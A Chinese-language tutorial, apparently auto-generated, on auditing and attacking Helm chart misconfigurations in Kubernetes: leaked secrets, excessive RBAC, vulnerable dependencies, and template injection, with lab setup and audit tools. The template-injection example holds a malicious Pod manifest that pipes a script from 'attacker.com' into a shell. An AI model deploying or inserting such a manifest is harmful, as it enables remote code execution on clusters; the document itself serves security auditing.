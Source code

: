 # Helm配置缺陷审计的攻击技术

## 1. 技术原理解析

### 1.1 Helm概述
Helm是Kubernetes的包管理工具，用于简化应用程序的部署和管理。Helm通过Charts（包含预配置的Kubernetes资源）来定义、安装和升级复杂的Kubernetes应用程序。然而，Helm配置中的缺陷可能导致安全漏洞，攻击者可以利用这些漏洞进行恶意操作。

### 1.2 Helm配置缺陷的常见类型
1. **敏感信息泄露**：Helm Charts中可能包含敏感信息（如API密钥、密码等），如果这些信息未加密或未正确管理，攻击者可以通过访问Chart文件获取这些信息。
2. **权限配置不当**：Helm Charts中的RBAC（基于角色的访问控制）配置不当可能导致攻击者获得不必要的权限，从而执行恶意操作。
3. **依赖漏洞**：Helm Charts可能依赖于其他第三方库或镜像，如果这些依赖存在漏洞，攻击者可以利用这些漏洞进行攻击。
4. **模板注入**：Helm使用Go模板引擎生成Kubernetes资源文件，如果模板中存在注入漏洞，攻击者可以通过注入恶意代码来操纵生成的资源文件。

### 1.3 底层实现机制
Helm通过以下机制实现其功能：
- **Tiller（Helm 2.x）**：Helm 2.x使用Tiller作为服务器端组件，负责与Kubernetes API交互。Tiller的权限配置不当可能导致安全漏洞。
- **Helm 3.x**：Helm 3.x移除了Tiller，直接与Kubernetes API交互，减少了攻击面，但仍可能存在配置缺陷。

## 2. 攻击手法与利用方式

### 2.1 敏感信息泄露
**攻击手法**：
1. 获取Helm Charts的源代码或打包文件。
2. 分析Chart中的`values.yaml`、`secrets.yaml`等文件，查找未加密的敏感信息。

**利用方式**：
- 使用获取的API密钥或密码访问受保护的资源。
- 利用泄露的凭证进行横向移动或权限提升。

**示例命令**：
```bash
helm inspect values my-chart
```

### 2.2 权限配置不当
**攻击手法**：
1. 分析Helm Charts中的RBAC配置，查找权限过大的角色或服务账户。
2. 利用这些角色或服务账户执行恶意操作。

**利用方式**：
- 创建或删除Kubernetes资源。
- 访问或修改集群中的敏感数据。

**示例命令**：
```bash
kubectl get rolebinding -o yaml
```

### 2.3 依赖漏洞
**攻击手法**：
1. 分析Helm Charts的依赖关系，查找存在漏洞的第三方库或镜像。
2. 利用这些漏洞进行攻击。

**利用方式**：
- 执行远程代码。
- 获取容器内的敏感信息。

**示例命令**：
```bash
helm dependency list my-chart
```

### 2.4 模板注入
**攻击手法**：
1. 分析Helm Charts中的模板文件，查找可能存在的注入点。
2. 通过注入恶意代码操纵生成的Kubernetes资源文件。

**利用方式**：
- 创建恶意Pod或服务。
- 修改现有资源的配置。

**示例代码**：
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: malicious-pod
spec:
  containers:
  - name: malicious-container
    image: malicious-image
    command: ["/bin/sh", "-c", "curl http://attacker.com/malicious-script.sh | sh"]
```

## 3. 攻击步骤与实验环境搭建指南

### 3.1 实验环境搭建
1. **安装Kubernetes集群**：使用Minikube或Kind等工具在本地搭建Kubernetes集群。
2. **安装Helm**：根据官方文档安装Helm 3.x。
3. **部署示例应用**：使用Helm部署一个示例应用，如WordPress。

**示例命令**：
```bash
minikube start
helm repo add bitnami https://charts.bitnami.com/bitnami
helm install my-wordpress bitnami/wordpress
```

### 3.2 攻击步骤
1. **获取Helm Charts**：从公开仓库或内部仓库获取目标应用的Helm Charts。
2. **分析配置**：使用`helm inspect`命令分析Chart的配置，查找潜在的安全缺陷。
3. **利用缺陷**：根据分析结果，利用相应的攻击手法进行攻击。

**示例命令**：
```bash
helm inspect values my-wordpress
kubectl get rolebinding -o yaml
helm dependency list my-wordpress
```

## 4. 实际命令、代码或工具使用说明

### 4.1 命令使用
- **`helm inspect`**：查看Chart的详细信息，包括`values.yaml`和`templates`。
- **`kubectl get`**：获取Kubernetes资源的详细信息，如RoleBinding、Pod等。
- **`helm dependency`**：列出Chart的依赖关系。

### 4.2 代码示例
- **模板注入**：通过修改模板文件注入恶意代码。
- **依赖漏洞利用**：使用存在漏洞的镜像或库进行攻击。

### 4.3 工具使用
- **kube-bench**：用于检查Kubernetes集群的安全配置。
- **kube-hunter**：用于发现Kubernetes集群中的安全漏洞。
- **helm-secrets**：用于管理Helm Charts中的敏感信息。

**示例命令**：
```bash
kube-bench --benchmark cis-1.5
kube-hunter --remote
helm secrets encrypt values.yaml
```

## 5. 总结
Helm配置缺陷审计是确保Kubernetes应用安全的重要环节。通过深入理解Helm的底层机制和常见攻击手法，可以有效识别和修复配置中的安全缺陷。在实际操作中，应结合自动化工具和手动审计，全面检查Helm Charts的安全性，防止攻击者利用配置缺陷进行恶意操作。

---

*文档生成时间: 2025-03-14 12:48:02*
